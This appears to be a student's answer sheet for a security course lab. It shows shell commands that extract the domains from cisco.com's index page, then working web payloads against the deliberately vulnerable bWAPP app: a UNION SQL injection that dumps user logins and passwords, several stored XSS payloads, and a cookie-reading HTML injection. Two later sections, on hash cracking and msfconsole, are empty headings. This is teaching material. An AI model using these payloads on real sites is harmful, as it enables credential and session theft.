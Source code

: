 # C part questions(13 points)
Another parts [part A](part2.md) [part B](part3.md)
 ## Download index page of cisco.com, extract unique dns to which the page redirects you
 1. Download the index page 
 ```
 kali@kali:~# wget www.cisco.com
 ```
 2. Use this command to get domains
 ```
 kali@kali:~# grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
 ```
 3. Get ip addresses (maybe optional)
 ```
 kali@kali:~# for url in $(cat list.txt); do host $url; done
 ```
 
 ### Explanation
 1. Extract all the links with `grep "href=" index.html`
 2. Get mostly the links with "/" delimeter `cut -d "/" -f 3`
 3. Get only domains with `grep "\."`
 4. Clean up the above step with `cut -d '"' -f 1`
 5. Sort results with `sort -u`
 
 
 ## Show 3 working OWASP in bWAPP
 1. sqli_2.php
 ```
 localhost/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order%20by%204+desc+&action=go
 ```
 2. xss_stored_1.php
 ```
 <script>alert(1);</script>
 ```
 3. xss_stored_3.php
   1. Find `input` in code inspector and change **type** from `hidden` to `text`
   2. Enter any value to first `input` and enter your script to second `input`
   ```
   "><script>alert(1);</script>
   ```
 4. htmli_get.php
 ```
 <script>alert(document.cookie);</script>
 ```
 
 ## Hash: 1st indentify which hash, then break given hash
 
 
 ## msfconsole: setup everything and run exploit
 
